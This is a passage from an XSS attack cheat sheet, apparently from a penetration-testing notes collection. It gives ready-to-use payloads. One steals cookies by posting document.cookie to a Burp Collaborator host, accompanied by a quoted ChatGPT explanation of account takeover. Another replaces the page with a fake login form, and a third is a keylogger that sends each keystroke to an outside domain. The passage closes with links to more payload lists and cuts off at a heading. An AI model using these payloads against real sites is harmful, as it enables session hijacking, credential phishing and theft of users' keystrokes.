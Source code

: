 ### CORS

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```
**ChatGPT Explanation:**
This JavaScript code uses the fetch function to send a POST request to a specified URL (in this case, https://<SESSION>.burpcollaborator.net) with the current document's cookies as the request body. The mode: 'no-cors' option is included to bypass the same-origin policy, which would otherwise block the request. This allows the attacker to send the victim's cookies to a server under their control. If the victim is currently logged in to the website, the attacker can use the stolen cookies to impersonate the victim and potentially gain unauthorized access to their account.


### UI redressing

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

### Javascript keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other ways

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## Identify an XSS endpoint
